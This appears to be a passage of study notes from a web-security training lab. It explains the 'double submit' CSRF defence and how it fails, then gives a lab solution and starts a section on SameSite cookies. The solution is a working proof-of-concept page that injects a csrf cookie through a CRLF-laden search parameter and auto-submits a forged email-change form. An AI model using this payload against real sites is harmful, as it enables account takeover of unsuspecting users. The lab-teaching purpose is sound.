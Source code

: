 In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter. When the subsequent request is validated, the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie. This is sometimes called the "double submit" defense against CSRF, and is advocated because it is simple to implement and avoids the need for any server-side state:
```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```
In this situation, the attacker can again perform a CSRF attack if the website contains any cookie setting functionality. Here, the attacker doesn't need to obtain a valid token of their own. They simply invent a token (perhaps in the required format, if that is being checked), leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

### Lab: CSRF where token is duplicated in cookie
This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter 

In this lab, the value of the csrf body parameter is simply being validated by comparing it with the csrf cookie. The goal is that we need to make these 2 the same
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a9300c6034805d385e581be00b40025.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="c&#64;a" />
      <input type="hidden" name="csrf" value="abc" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a9300c6034805d385e581be00b40025.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=abc%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```
## Bypassing SameSite cookie restrictions

SameSite is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. SameSite cookie restrictions provide partial protection against a variety of cross-site attacks, including CSRF, cross-site leaks, and some CORS exploits.
